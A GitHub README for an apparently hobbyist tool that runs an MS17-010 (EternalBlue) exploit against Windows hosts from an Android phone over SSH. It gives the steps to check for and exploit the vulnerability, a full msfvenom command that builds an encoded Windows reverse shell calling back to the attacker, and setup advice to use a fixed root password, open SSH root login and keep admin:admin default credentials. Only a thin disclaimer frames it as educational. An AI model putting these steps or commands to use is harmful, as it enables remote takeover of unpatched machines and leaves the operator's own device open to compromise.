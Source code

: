 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```

